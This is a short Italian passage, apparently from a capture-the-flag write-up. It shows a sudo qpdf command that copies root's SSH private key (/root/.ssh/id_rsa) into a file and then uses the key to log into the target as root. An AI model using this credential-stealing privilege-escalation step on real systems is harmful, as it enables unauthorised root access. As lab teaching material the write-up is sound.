

Il comando qpdf è il seguente:
sudo /usr/bin/qpdf --empty /tmp/rsa.txt --qdf --add-attachment /root/.ssh/id_rsa --
In quanto consuela, creata la copia del file /root/.ssh/id_rsa non ci resta altro che stamparlo a schermo, usarlo e connetterci alla macchina target come utenri root.

# Privilege Escalation